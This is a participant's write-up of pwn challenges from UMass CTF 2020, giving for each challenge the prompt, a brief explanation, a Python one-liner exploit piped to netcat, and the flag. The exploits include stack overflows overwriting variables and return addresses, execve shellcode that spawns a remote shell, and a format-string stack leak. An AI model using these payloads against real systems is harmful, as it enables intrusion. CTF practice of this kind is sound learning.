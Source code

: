 ```yaml
---
title: "UMass CTF 2020: PWN Engineering Writeups"
date: 2020-10-13
category: ctf
tags:
 - pwn
 - umass20
permalink: /ctf/umass/pwn
sidebar:
    nav: "ctfs"
...
```


# Introduction

This page details my pwn writeups for The University of Massachusetts Amherst CTF.
This CTF was originally just an internal CTF but I knew one of the moderators Sam.
Overall it was a great CTF and I really enjoyed it; they definitely had some unique challenges.

All my scripts and the provided files from the CTF can be found [here](https://github.com/nadrojisk/ctf-writeups/tree/master/2020-UMassCTF/rev).

# Baby Overflow I

## Prompt

This is my first program. Be nice :)

`nc 34.75.105.136 1024`

## TLDR;

Looking at the binary in GDB we see that the buffer is 16 characters and right above it is the variable for `should_get_flag`.
Therefore, we should write in 16 junk characters and then write in 0x1.

`python -c "import struct; out = 'A'*0x10; out += struct.pack('I', 0x1); print(out)" | nc 34.75.105.136 1024`

## Flag

`UMASS{N3v3r_g0nn4_m3s$_th1s_up}`

# Baby Overflow II

## Prompt

When my friend Ptasie Mleczko typed in his name, it gave him the flag. It was weird, but I think I fixed it.

nc 34.75.105.136 1025

## TLDR;

The binary is pretty much the same, however, this time it expects a specific value instead of a boolean True value.

`python -c "import struct;out = 'A'*0x10;out += struct.pack('I', 0xB16B00B5);print(out)" | nc 34.75.105.136 1025`

## Flag

`UMASS{Dyslexic_D0g_1nth3$ky}`

# Baby Overflow III

## Prompt

Okay, now it's really secure.

nc 34.75.105.136 1027

## TLDR;

For this challenge one has to gain control of the RIP to change execution flow.
This can be done by overloading the buffer, the saved RBP value on the stack and then by inserting the address one would like to execute at.

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x401132); out += struct.pack('Q', 0x401060); print(out)"; echo) | nc 34.75.105.136 1027`

## Flag

`UMASS{first_step_to_rop}`

# Baby Overflow IV

## Prompt

I don't even know why I had that function in the first place...

nc 34.75.105.136 1028

## TLDR;

`(python -c "import struct;out = 'A'*0x10;out += 'bbbbbbbb';out += struct.pack('Q', 0x0000000000404060); print('\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05');print(out)"; cat -) | nc 34.75.105.136 1028`

Once in the shell type
`cat flag`

## Flag

`UMASS{now_you_can_really_call_yourself_a_hacker}`

# format_what

## Prompt

We just learned format strings in 230, can you check if I'm doing it right?

nc 34.75.105.136 1030

## TLDR;


`python -c "print('%lu '*20)" | nc 34.75.105.136 1030 | (read -r i; read -r s; for i
 in $s; do python3 -c "import struct; print(struct.pack('Q', $i))"; done)`

## Flag

`UMASS{n0_f0rm4t_n33d3d!?}`
